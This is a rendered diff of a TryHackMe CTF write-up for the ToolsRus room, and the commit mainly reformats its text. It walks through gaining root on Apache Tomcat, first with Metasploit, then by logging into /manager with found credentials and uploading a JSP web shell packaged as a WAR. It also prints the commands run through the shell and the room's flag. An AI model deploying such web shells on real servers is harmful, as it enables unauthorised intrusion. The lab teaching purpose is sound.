

Before and after one commit to abubakar-shahid/TryHackMe-CTFs-Writeups, a Markdown page: Easy/ToolsRus/ToolsRus.md, the part around the change printed below. Drawn GitHub-style.

````diff
--- a/Easy/ToolsRus/ToolsRus.md
+++ b/Easy/ToolsRus/ToolsRus.md
@@ -32,12 +64,12 @@ Now our task is to run the metasploit and exploit the service and get the shell
 6. set lhost <YOUR_THM_VPN_IP>
 7. set lport 4444
 
-10. After all these, again run the options command and verify all the options are set properly. now use command [run] to run the exploit. After the successful execution, type [shell] to get the shell. Now run [whoami] to check the user. It will give us [root].
+10. After all these, again run the options command and verify all the options are set properly. now use command `run` to run the exploit. After the successful execution, type `shell` to get the shell. Now run `whoami` to check the user. It will give us `root`.
 
-11. Now run the command [ls], which will many directories in which one directory with the name of [root] is also present. Navigate into that [cd root]. Again see what files are present in there [ls]. Here you will see the file [flag.txt]. Read the contents of this file [cat flag.txt] and we will get the flag [ff1fc4a81affcc7688cf89ae7dc6e0e1].
+11. Now run the command `ls`, which will many directories in which one directory with the name of `root` is also present. Navigate into that `cd root`. Again see what files are present in there `ls`. Here you will see the file `flag.txt`. Read the contents of this file `cat flag.txt` and we will get the flag `ff1fc4a81affcc7688cf89ae7dc6e0e1`.
 
-# Method-2
-If you face any problem in running the exploit in metasploit, we can just upload the shell directly into the webpage. If we simply do some research that [how can we get reverse shell in Apache Tomcat/7.0.88?], we will come to know that the directory [/manager] can help us here. So just open this directory [http://<IP_ADDRESS>/manager]. This will ask for the credentials. Simply use the credentials that we got before [bob, bubbles]. This will open a server page for the manager. Here we can see an option for uploading [war] files. Create a war file using the following steps:
+### Method 2 - Manual Exploitation
+If you face any problem in running the exploit in metasploit, we can just upload the shell directly into the webpage. If we simply do some research that `how can we get reverse shell in Apache Tomcat/7.0.88?`, we will come to know that the directory `/manager` can help us here. So just open this directory `http://<IP_ADDRESS>/manager`. This will ask for the credentials. Simply use the credentials that we got before `bob, bubbles`. This will open a server page for the manager. Here we can see an option for uploading `war` files. Create a war file using the following steps:
 -> create a shell.jsp file with the following contents:
 ```bash
 <%@ page import="java.io.*" %>
@@ -53,12 +85,13 @@ If you face any problem in running the exploit in metasploit, we can just upload
     }
 %>
 ```
+
 run the commands:
 ```bash
 mkdir -p mywebapp/WEB-INF
 cp shell.jsp mywebapp/
 jar -cvf shell.war -C mywebapp/ .
 ```
-10. Now you have a shell.war file. Deploy it on the webpage, which will give message [ok] in the message field. Now simply use the url to get the user of the server [http://<IP_ADDRESS>/shell/shell.jsp?cmd=whoami]. This will give you the answer [root].
+10. Now you have a shell.war file. Deploy it on the webpage, which will give message `ok` in the message field. Now simply use the url to get the user of the server `http://<IP_ADDRESS>/shell/shell.jsp?cmd=whoami`. This will give you the answer `root`.
 
-11. Now run the url [http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls], which will many directories in which one directory with the name of [root] is also present. Navigate into that [http://<IP_ADDRESS>/shell/shell.jsp?cmd=cd root]. Again see what files are present in there [http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls]. Here you will see the file [flag.txt]. Read the contents of this file [http://<IP_ADDRESS>/shell/shell.jsp?cmd=cat flag.txt] and we will get the flag [ff1fc4a81affcc7688cf89ae7dc6e0e1].
+11. Now run the url `http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls`, which will many directories in which one directory with the name of `root` is also present. Navigate into that `http://<IP_ADDRESS>/shell/shell.jsp?cmd=cd root`. Again see what files are present in there `http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls`. Here you will see the file `flag.txt`. Read the contents of this file `http://<IP_ADDRESS>/shell/shell.jsp?cmd=cat flag.txt` and we will get the flag `ff1fc4a81affcc7688cf89ae7dc6e0e1`.
````
Also changed, not shown: other parts of Easy/ToolsRus/ToolsRus.md (+47 -15 lines).
